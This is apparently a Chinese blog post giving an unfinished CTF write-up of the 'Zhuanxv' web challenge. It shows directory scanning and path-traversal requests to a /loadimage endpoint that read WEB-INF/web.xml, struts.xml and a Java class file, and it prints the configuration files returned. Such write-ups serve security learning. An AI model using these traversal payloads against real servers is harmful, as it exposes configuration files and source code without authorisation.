 ```yaml
---
 layout:   post        # 使用的布局（不需要改）
 title:   Zhuanxv   # 标题 
 subtitle:  攻防世界 #副标题
 date:    2020-08-05    # 时间
 author:   yanmie       # 作者
 header-img: img/.jpg  ##标签这篇文章标题背景图片
 catalog: true            # 是否归档
 tags:                
    - CTF

--- 
```



目录扫描

![aRLFVs.png](https://s1.ax1x.com/2020/08/07/aRLFVs.png)
	
	
访问：`http://220.249.52.133:51786/list`

![aRL4ds.png](https://s1.ax1x.com/2020/08/07/aRL4ds.png)

爆破不上去，万能密码也没用。

右键源代码，他这里加载背景图片的方式很诡异。

![aROZTA.png](https://s1.ax1x.com/2020/08/07/aROZTA.png)

![aRxtDU.png](https://s1.ax1x.com/2020/08/07/aRxtDU.png)


下载图片也没啥特别之处，

尝试可能有文件读取漏洞，

这里还发现一个`JSESSIONID`,那么这个站应该是[jsp](https://baike.baidu.com/item/JSP/141543?fr=aladdin)写的。

![aRxBCR.png](https://s1.ax1x.com/2020/08/07/aRxBCR.png)

读取`web.xml`

	/loadimage?fileName=./../../WEB-INF/web.xml

还是下载图片操作。。。，(也可burp抓包repeater看回显)记事本打开发现

```
<?xml version="1.0" encoding="UTF-8"?>
<web-app id="WebApp_9" version="2.4"
         xmlns="http://java.sun.com/xml/ns/j2ee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd">
    <display-name>Struts Blank</display-name>
    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
    <welcome-file-list>
        <welcome-file>/ctfpage/index.jsp</welcome-file>
    </welcome-file-list>
    <error-page>
        <error-code>404</error-code>
        <location>/ctfpage/404.html</location>
    </error-page>
</web-app>
```

发现用了struts过滤器,尝试读`struts.xml`

	/loadimage?fileName=./../../WEB-INF/classes/struts.xml

得到

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.3//EN"
        "http://struts.apache.org/dtds/struts-2.3.dtd">
<struts>
	<constant name="strutsenableDynamicMethodInvocation" value="false"/>
    <constant name="struts.mapper.alwaysSelectFullNamespace" value="true" />
    <constant name="struts.action.extension" value=","/>
    <package name="front" namespace="/" extends="struts-default">
        <global-exception-mappings>
            <exception-mapping exception="java.lang.Exception" result="error"/>
        </global-exception-mappings>
        <action name="zhuanxvlogin" class="com.cuitctf.action.UserLoginAction" method="execute">
            <result name="error">/ctfpage/login.jsp</result>
            <result name="success">/ctfpage/welcome.jsp</result>
        </action>
        <action name="loadimage" class="com.cuitctf.action.DownloadAction">
            <result name="success" type="stream">
                <param name="contentType">image/jpeg</param>
                <param name="contentDisposition">attachment;filename="bg.jpg"</param>
                <param name="inputName">downloadFile</param>
            </result>
            <result name="suffix_error">/ctfpage/welcome.jsp</result>
        </action>
    </package>
    <package name="back" namespace="/" extends="struts-default">
        <interceptors>
            <interceptor name="oa" class="com.cuitctf.util.UserOAuth"/>
            <interceptor-stack name="userAuth">
                <interceptor-ref name="defaultStack" />
                <interceptor-ref name="oa" />
            </interceptor-stack>

        </interceptors>
        <action name="list" class="com.cuitctf.action.AdminAction" method="execute">
            <interceptor-ref name="userAuth">
                <param name="excludeMethods">
                    execute
                </param>
            </interceptor-ref>
            <result name="login_error">/ctfpage/login.jsp</result>
            <result name="list_error">/ctfpage/welcome.jsp</result>
            <result name="success">/ctfpage/welcome.jsp</result>
        </action>
    </package>
</struts>
```

发现一个看起来和登陆有关的类UserLoginAction,构造payload下载:

![aWSzuV.png](https://s1.ax1x.com/2020/08/07/aWSzuV.png)

	/loadimage?fileName=./../../WEB-INF/classes/com/cuitctf/action/UserLoginAction.clas

下载，反编译什么的，懵逼了，学完java再来，
